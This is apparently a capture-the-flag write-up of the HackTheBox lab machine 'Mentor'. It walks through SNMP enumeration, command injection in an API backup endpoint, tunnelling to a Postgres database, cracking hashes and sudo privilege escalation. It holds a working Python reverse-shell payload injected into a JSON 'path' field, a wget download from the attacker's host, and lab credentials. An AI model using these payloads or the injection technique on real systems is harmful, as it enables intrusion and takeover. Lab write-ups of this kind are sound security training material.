

# HackTheBox
------------------------------------
### IP: 10.129.228.102
### Name: Mentor
### Difficulty: Medium
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.129.228.102
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-28 08:58 CDT
Nmap scan report for 10.129.228.102
Host is up (0.093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c73bfc3cf9ceee8b4818d5d1af8ec2bb (ECDSA)
|_  256 4440084c0ecbd4f18e7eeda85c68a4f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://mentorquotes.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

Just ports 80 HTTP and 22 SSH open here.

Lets add mentorquotes.htb to `/etc/hosts`

Looking at the page we find a simple site with several different quotes on it:


Looking for vhosts we discover api.mentorquotes.htb, so lets add that to `/etc/hosts` as well.

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://mentorquotes.htb" -H "Host: FUZZ.mentorquotes.htb" --hw 977 --hc 302               
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000051:   404        0 L      2 W        22 Ch       "api"
```

However there's nothing really of initial interest there:



This is likely fastapi, so lets access the `/docs` directory:


We can also kick off directory scanning for api.mentorquotes and find an `/admin` directory:


Not finding much of interest emuerating the API I decide to investigate UDP and see if SNMP is open:

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.228.102

Scanning 1 hosts, 3219 communities
10.129.228.102 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
10.129.228.102 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
```

Cool, looks like it is and the public community is in use. Lets investigate this further using snmp-check.

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ snmp-check 10.129.228.102                                     
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.228.102:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.129.228.102
  Hostname                      : mentor
  Description                   : Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
  Contact                       : Me <admin@mentorquotes.htb>
  Location                      : Sitting on the Dock of the Bay
  Uptime snmp                   : 00:25:55.66
  Uptime system                 : 00:25:45.00
  System date                   : 2024-6-28 14:22:09.0
```

hmm, that didn't return much. we found the admin username, but nothing else of interest. 

Lets try enumerating the community strings with another tool. I'll use snmpbrute.py: https://github.com/SECFORCE/SNMP-Brute

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ python snmpbrute.py -t 10.129.228.102
   _____ _   ____  _______     ____             __     
  / ___// | / /  |/  / __ \   / __ )_______  __/ /____ 
  \__ \/  |/ / /|_/ / /_/ /  / __  / ___/ / / / __/ _ \
 ___/ / /|  / /  / / ____/  / /_/ / /  / /_/ / /_/  __/
/____/_/ |_/_/  /_/_/      /_____/_/   \__,_/\__/\___/ 

SNMP Bruteforce & Enumeration Script v2.0
http://www.secforce.com / nikos.vassakis <at> secforce.com
###############################################################

<SNIP>

community strings ...
10.129.228.102 : 161 	Version (v2c):	internal
10.129.228.102 : 161 	Version (v1):	public
10.129.228.102 : 161 	Version (v2c):	public
10.129.228.102 : 161 	Version (v1):	public
10.129.228.102 : 161 	Version (v2c):	public
Waiting for late packets (CTRL+C to stop)

Trying identified strings for READ-WRITE ...

Identified Community strings
	0) 10.129.228.102  internal (v2c)(RO)
	1) 10.129.228.102  public (v1)(RO)
```

Cool, snmpbrute found another community string: internal. Weird the onesixtyone didn't. 

Inspecting this using snmpwalk we find a potential password:


```
kj23sadkj123as0-d213
```

Now that we have these credentials, lets try logging in using swagger at `/auth/login`


We were successful and a JWT token is issued:


Lets make that request again and capture it in burp:


### Exploitation

We can change the request type to GET and access the `/users` contents:


Recalling there was an `/admin/backup` page discovered with Feroxbuster, I try to access the page:


Changing the request type back to POST we get a new error:


Trying again we see we are missing "path"


If I update the content-type to application/json and test out just using the "path" we get the message "Done!"


Fiddling with possible injections for a long time and finally updating the path to:

```
{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.114\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
```

We can catch a shell back as root:

```
┌──(ryan㉿kali)-[~/HTB/Mentor]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.228.102] 47296
/app # 

/app # 
whoami
root
```

Running `ls -la` I see we are likely in a docker container, which explains us being root:

```
/app # ls -la
total 28
drwxr-xr-x    1 root     root          4096 Jun 28 17:32 .
drwxr-xr-x    1 root     root          4096 Jun 28 13:56 ..
-rw-r--r--    1 root     root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3  2022 Dockerfile
drwxr-xr-x    1 root     root          4096 Nov 10  2022 app
-rw-r--r--    1 root     root           672 Jun  4  2022 requirements.txt
-rw-r--r--    1 root     root          1024 Jun 28 17:32 rm
```

We can grab the user.txt flag from here:


### Privilege Escalation

Browsing around the box I find a db.py file, which contains creds for an Postgres instance running internally:


Lets transfer over chisel so we can access this:

On the target:
```
/tmp # wget http://10.10.14.114/chisel_1.8.1_linux_amd64
Connecting to 10.10.14.114 (10.10.14.114:80)
chisel_1.8.1_linux_a 100% |********************************| 8188k  0:00:00 ETA
/tmp # chmod +x chisel_1.8.1_linux_amd64 
/tmp # ./chisel_1.8.1_linux_amd64 client 10.10.14.114:8081 R:5432:172.22.0.1:5432
```

On Kali:
```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8081 --reverse

2024/06/28 12:48:40 server: Reverse tunnelling enabled
2024/06/28 12:48:40 server: Fingerprint K9W/Ah2tMVoZgr0DnVUjr4v6/ghtKmvho7auAERGqKc=
2024/06/28 12:48:40 server: Listening on http://0.0.0.0:8081
2024/06/28 12:49:46 server: session#1: tun: proxy#R:5432=>5432: Listening
```

We can then connect to the DB where we find two hashes:

```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ psql -U postgres -h 127.0.0.1 -p 5432
Password for user postgres: 
psql (14.1 (Debian 14.1-5), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

postgres=# \list
                                    List of databases
      Name       |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------------+----------+----------+------------+------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                 |          |          |            |            | postgres=CTc/postgres
(4 rows)

postgres=# \c mentorquotes_db
psql (14.1 (Debian 14.1-5), server 13.7 (Debian 13.7-1.pgdg110+1))
You are now connected to database "mentorquotes_db" as user "postgres".
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)
```

Dumping these into crackstation we successfully crack the service account hash:


With this password I can now SSH in as svc:

```
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ssh svc@10.129.228.102
svc@10.129.228.102's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-56-generic x86_64)
```

Loading linPEAS onto the box, we find some snmp configuration files.


Lets check that out.

```
svc@mentor:/tmp$ cat /etc/snmp/snmpd.conf
###########################################################################
#
# snmpd.conf
# An example configuration file for configuring the Net-SNMP agent ('snmpd')
# See snmpd.conf(5) man page for details
#
###########################################################################
# SECTION: System Information Setup
<SNIP>
createUser bootstrap MD5 SuperSecurePassword123__ DES
```

Cool, we've discovered a plaintext password.

We can't use this for root, but we can use it to `su james`:

```
svc@mentor:/tmp$ su root 
Password: 
su: Authentication failure
svc@mentor:/tmp$ su james
Password: 
james@mentor:/tmp$ whoami
james
```

Running `sudo -l` to see what user james can run with elevated permissions we find:

```
james@mentor:/tmp$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```

Nice. Lets run:

```
james@mentor:/tmp$ sudo /bin/sh
# whoami
root
# hostname
mentor
```

We can now grab the final flag:


Thanks for following along!

-Ryan

------------------------------------------------------------
